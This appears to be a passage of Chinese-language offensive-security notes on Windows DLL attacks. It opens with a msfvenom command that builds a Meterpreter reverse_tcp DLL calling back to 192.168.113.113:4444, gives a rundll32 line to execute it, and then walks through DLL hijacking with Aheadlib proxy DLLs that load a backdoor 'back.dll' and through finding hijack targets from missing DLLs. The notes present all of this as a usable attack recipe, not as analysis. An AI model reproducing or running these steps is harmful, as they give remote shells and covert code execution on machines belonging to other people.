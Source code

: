 ### DLL

生成dll

```
ip=192.168.113.113
port=4444
arch=x86
platform=windows
format=dll
payload=windows/meterpreter/reverse_tcp

out = ~/exploit/meter_rev_tcp_x86.dll
msfvenom -p $payload LHOST=$ip LPORT=$port -f $format -a $arch --platform $platform -o $out
```

使用IDA打开后，在export导出表中可以查看entrypoint

view-A中可以找到DLLentrypoint函数

#### DLL利用

cmd/powershell

```
rundll32 C:/file.dll dll.DLLentrypoint
```

bat/加载器         

dll更名为其他进程同名dll加载  /   用c++合并dll   /  dll劫持  

### DLL劫持

以计算器calc.exe为例，假设存在div.dll被动态调用，函数被call

如果calc.exe call  div(evil).dll （同名覆盖）在evil.dll去调用div.dll

可以使用C++编写/ Aheadlib工具

拷贝Aheadlib代码到vs，找到DLLmain中执行加载

loadlibraryA("back.dll"),编译需要属性设置C++代码生成运行库设置 多线程MT

dll劫持：
a.exe 调用 b.dll 有一个 func（）

b.dll 改名bb.dll(或者直接根据路径劫持)

写一个b.dll 有一个 func-x() 在func(加载bb.dll) ->bb.dll调用func()

运行windows加载dll 主程序目录查找b.dll/系统路径下/环境变量路径
key:b.dll里的函数名称和函数参数
1：直接重新编译源码替换文件
2：反编译


调试：查看有没有某个dll缺失之后exe无法运行，则为劫持目标

VS：创建DLL MFC DLL->共享 
入口定义，工程属性Release MFC的使用改为静态
